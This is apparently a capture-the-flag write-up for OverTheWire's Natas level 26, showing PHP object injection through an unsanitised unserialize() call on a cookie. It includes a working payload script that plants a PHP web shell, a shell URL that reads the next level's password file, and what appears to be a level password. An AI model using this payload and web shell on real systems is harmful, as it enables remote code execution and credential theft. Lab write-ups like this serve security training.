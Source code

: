 ```
u3RRffXjysjgwFU6b9xa23i6prmUsYne
```
# Solution
This is a PHP object injection problem.

Reading the code from the source, we can see that this page deserialize the cookie values without sanitation.
```
$drawing = unserialize(base64_decode($_COOKIE["drawing"]));
```

Note: the drawing cookie only exists after user pressed "Draw".

After we have a normal cookie value, we can consider exploitation
### Exploitation
```php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __destruct(){
        // write exit message
        $fd = fopen($this->logFile, "a+");
        fwrite($fd, $this->exitMsg);
        fclose($fd);
    }
}
```

This is class is specifically useful as it destructs itself. While doing so, it opens a file and write something into that file. We can leverage this class to create an object that has a shell file, then base64 encode it. So that it is decoded later.

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    public function __construct() {
        $this->logFile = "/var/www/natas/natas26/img/shell.php";
        $this->initMsg = "";
        $this->exitMsg = "<?php system(\$_GET['cmd']); ?>";
    }
}

// Create object and encode
$payload = base64_encode(serialize(new Logger));

echo "Use this as your 'drawing' cookie:\n";
echo $payload . "\n";

?>
```

We simply need to visit the file:
```
http://natas26.natas.labs.overthewire.org/img/shell.php?cmd=cat /etc/natas_webpass/natas27
```